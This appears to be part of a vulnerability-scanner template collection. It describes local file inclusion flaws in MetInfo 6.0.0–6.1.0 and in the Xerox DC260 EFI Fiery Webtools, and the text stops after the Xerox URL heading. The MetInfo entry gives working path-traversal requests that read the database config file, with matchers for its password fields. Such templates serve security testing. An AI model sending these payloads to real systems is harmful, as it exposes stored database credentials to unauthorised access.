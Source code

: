 ## Description

- MetInfo 6.0.0 through 6.1.0 is vulnerable to local file inclusion and allows remote unauthenticated attackers access to locally stored files and their content.
- severity - high
- tags - metinfo,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/include/thumb.php?dir=http/.....///.....///config/config_db.php
- {{BaseURL}}/include/thumb.php?dir=.....///http/.....///config/config_db.php
- {{BaseURL}}/include/thumb.php?dir=http\\..\\..\\config\\config_db.php

### Matchers

**Type - word**

- words
  1. con_db_pass
  2. con_db_name
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# Xerox DC260 EFI Fiery Controller Webtools 2.0 - Local File Inclusion

## Description

- Xerox DC260 EFI Fiery Controller Webtools 2.0 is vulnerable to local file inclusion because input passed thru the 'file' GET parameter in 'forceSave.php' script is not properly sanitized before being used to read files. This can be exploited by an unauthenticated attacker to read arbitrary files on the affected system.
- severity - high
- tags - iot,xerox,disclosure,lfi,packetstorm,edb

## Requests

- Method - GET

### URL
